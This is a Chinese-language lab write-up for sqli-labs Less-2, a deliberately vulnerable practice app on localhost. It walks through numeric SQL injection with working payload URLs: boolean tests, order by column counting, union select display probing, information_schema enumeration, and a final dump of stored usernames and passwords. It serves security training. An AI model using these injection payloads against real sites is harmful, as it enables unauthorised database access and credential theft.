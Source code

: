 # Less-2

**前言**

​	**Less-2相较于Less-1，并无太大变化，唯一的区别在于由Less-1的字符型注入变成了数字型注入，但整体的处理方法不变**

与Less-1一样，将带值的ID作为参数输入

![1622094006798](1622094006798.png)

尝试提交id=1，能够看到页面发生变化，出现Dumb用户的密码，更改id的数值会有不同的用户名及密码出现，并且添加单引号后，页面抛出异常，说明sql语句里存在引号非法闭合，判断这里存在注入，这都与Less-1相同

## 2.1 判断sql注入的类型

判断是否为数字型注入？可以看到页面发生变化，在and条件下1=2不成立没有返回结果，所以Less-2是数字型sql注入

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 and 1=1
```

![1622094402067](1622094402067.png)

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 and 1=2
```

![1622094415545](1622094415545.png)

## 2.2 判断字段数量

判断方法同样是使用order by，结果与Less-1相同，字段数量为3

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 1 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 2 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 3 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 4 --+
```

![1622094686959](1622094686959.png)

## 2.3 确定显示位置

使用联合查询union select来确定结果集的显示位置，这里可以获得字段2和字段3的信息，注意id=-1是为了查询一个不存在的用户账户，来保证返回信息是自己构造的联合查询结果

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,2,3 --+
```

![1622094772527](1622094772527.png)

## 2.4 获取数据库信息

借助联合查询，利用函数来替换数字在显示位置获得返回的数据库信息

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),version() --+
```

![1622094895584](1622094895584.png)

## 2.5 获取表名和列名

MySQL数据库5.0以上版本默认存在information_schema数据库，该数据库包含数据库内的所有数据库名，表名和列名，所以我们可以借助该库，依次获得表名和列名

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![1622095190472](1622095190472.png)

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),group_concat(column_name)  from information_schema.columns where table_schema='security' and table_name = 'users' --+
```

![1622095320921](1622095320921.png)

## 2.6 获取用户名和密码

最后dump出security数据库的所有账户和密码

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,group_concat(username),group_concat(password) from security.users --+
```

![1622095493719](1622095493719.png)